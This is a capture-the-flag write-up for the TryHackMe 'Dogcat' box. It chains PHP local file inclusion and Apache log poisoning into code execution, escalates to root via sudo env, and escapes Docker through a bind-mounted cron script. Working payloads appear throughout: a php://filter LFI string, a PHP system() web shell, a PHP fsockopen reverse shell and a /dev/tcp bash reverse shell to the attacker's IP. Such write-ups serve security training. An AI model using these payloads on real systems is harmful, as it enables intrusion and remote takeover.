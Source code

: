 ```yaml
---
title: Dogcat
draft: false
tags:
  - tryhackme
---
```

> I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

# Enumeration

I first started with an Nmap service and script scan to identify the running services.

```
nmap -sC -sV 10.10.10.10
```

```
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2431192ab1971a044e2c36ac840a7587 (RSA)
|   256 213d461893aaf9e7c9b54c0f160b71e1 (ECDSA)
|_  256 c1fb7d732b574a8bdcd76f49bb3bd020 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Taking a look at the website, the first thing that was apparent to me was the URL, which had a query parameter of `?view=dog` or `?view=cat` depending on what was clicked. Considering the challenge description, I assumed the parameter was susceptible to directory traversal and thus local file inclusion (LFI).

I also ran a Feroxbuster scan on the web application to determine if there were any other directories or files that might be useful, such as a `/upload` endpoint.

```
feroxbuster -u http://10.10.10.10
```

This unfortunately did not yield any results, so the only thing that seems to be exploitable is the URL query paramater.

# Web Exploitation

Hence the challenge description, I began to try different payloads for LFI. The first thing I noticed was that if `?view` did not contain dog or cat, then an error would appear.

I then began to test the logic of determining whether `dog` or `cat` was included. For example, is the application just checking for "dog" substring? Or is it a direct comparison of `$_GET["view"] == "dog"`. It turned out to be the former, luckily.

If something like `dogs/../test` is passed, we can see the application attempts to call `include()` with the file being passed. Further, it automatically appends ".php" to the extension. Thus:

```
?view=dog => include(dog.php)
?view=cat => include(cat.php)
```

But, as we saw, it only checks for substrings. So, we can trick it into including a file that is **not** cat.php or dog.php.

I found [this](https://stackoverflow.com/questions/20726247/php-security-exploit-list-content-of-remote-php-file) StackOverFlow post about vulnerabilities with `including` aribtrary data. One of the things I discovered was the use of PHP Wrappers, like `php://filter`. We can call these wrappers to do certain things, such as read a file and base64 encode it.

For example, if we set `?view` to the following payload:

```
?view=php://filter/read=convert.base64-encode/resource=dogs/../index
```

The page will output the contents of index.php in base64, which we can decode to figure out the inner-workings of the application.

![5cjshS1](static/5cjshS1.png)

This results in the following `index.php` file:

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

It pretty much does exactly what I thought it did. Checks for the substring, appends ".php", and so on. However, one key note is that there is a check for `?ext` query parameter. This is what determines the extension. If it is not set, then ".php" is appended by default, however, we can set `?ext=` to have no extension.

Knowing this, I now wanted to test for LFI.

```
?view=php://filter/read=convert.base64-encode/resource=dogs/../../../../etc/passwd&ext=
```

And what do you know! We were able to see the base64 encoded contents of `/etc/passwd`. Unfortunately, there were no interesting entries. So, we need to continue to exploit and chain LFI into Remote Code Execution (RCE).

# Exploitation

Knowing that we do indeed have LFI, we can utilize Apache Log Poisoning. Essentially, we inject PHP into the Apache server logs, and then we use LFI to load the logs, which will in turn execute our injected PHP.

There are two ways of doing this:

1. User Agent We can modify our user-agent to `<?php system($_GET['c']); ?>` and then access the web application. This will then store that code in the Apache logs, since Apache stores users agents.
2. Netcat We can also just send `<?php system($_GET['c']); ?>` to the web server using netcat. Simply connect with `nc 10.10.10.10 80` and then send the payload. We will get an error about the server being unable to handle the request, but that's fine.

Now we've injected the code into the Apache logs, and can pass a new query parameter, `?c` which will be our code we wish to be executed.

```
?view=dogs/../../../../var/log/apache2/access.log&ext=&c=whoami
```

![kOr9X2O](static/kOr9X2O.png)

Here we can see we have successfully chained LFI into RCE. I ran some additional commands such as "hostname" and "ls", and one of the interesting entries I found in the directory was `flag.php`. Using the same method to get the contents of `index.php`, I got the contents of `flag.php` and retrieved flag 1/4.

I started a Netcat listener and generated a PHP reverse shell.

```
ncat -lvnp 4444
```

```
?view=dogs/../../../../../../../var/log/apache2/access.log&ext=&c=php%20-r%20%27$sock=fsockopen(%2210.6.22.182%22,4444);$proc=proc_open(%22sh%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

Some basic enumeration `cd ../` got me flag 2/4.

# Privilege Escalation

Now it is time to escalate our privileges. Let's start with a simple `sudo -l` to determine what our user has permission to sudo.

```
User www-data may run the following commands on 6fc02ea2cc71:
    (root) NOPASSWD: /usr/bin/env
```

GTFOBINs have a nifty [env](https://gtfobins.github.io/gtfobins/env/) GTFOBIN that we can use to escalate to root.

```
sudo env /bin/bash
cd /root
```

And that is flag 3/4!

# Docker Escape

We know that this box consists of a Docker escape because the description told us so. Looking at `/root`, we can notice a `.Dockerenv` file, so we know this web-server is a docker container. I began to check through directories like `/bin`, `/var`, etc, until I found `/opt/backups`. In this directory were two files: `backup.sh` and `backup.tar`.

It looks like `/root/container` is being archived as a tar and being stored in `/root/container/backup`. We can untar the backup to get more of an understanding how this works.

```
tar xvf backup.tar
```

This will deflate `backup.tar` and reveal the `/root` directory of the actual machine (not the Docker container). This lets us see how exactly this container is being ran. We can look at `.Dockerfile`, the source to the web app, and an interesting `launch.sh` file.

The `-v /root/container/backup:/opt/backups` is a **bind mount**. This means that the volume `/opt/backups` (Container) is bound to `/root/container/backup` (Host). Any changes in one directory will be reflected to the other directory.

Essentially, a backup is made on the host machine (`backup.tar`) and that file is reflected to the Docker container because of the bind mount. We can also take a look at ls and see that the backup is created every minute, so it's probably some sort of cronjob on the host. So, we should be able to modify `backup.sh` and the file should be reflected on the Host and executed by the cronjob.

Let's try creating another reverse shell:

```
ncat -lvnp 2000
```

And then append a reverse shell payload to `/opt/backups/backup.sh`:

```
echo "/bin/bash -i >& /dev/tcp/10.6.22.182/2000 0>&1" >> backup.sh
```

We should see a connection to our listener, and we now have a shell as root on the host machine, thus escaping the Docker container. And we also now have flag 4/4.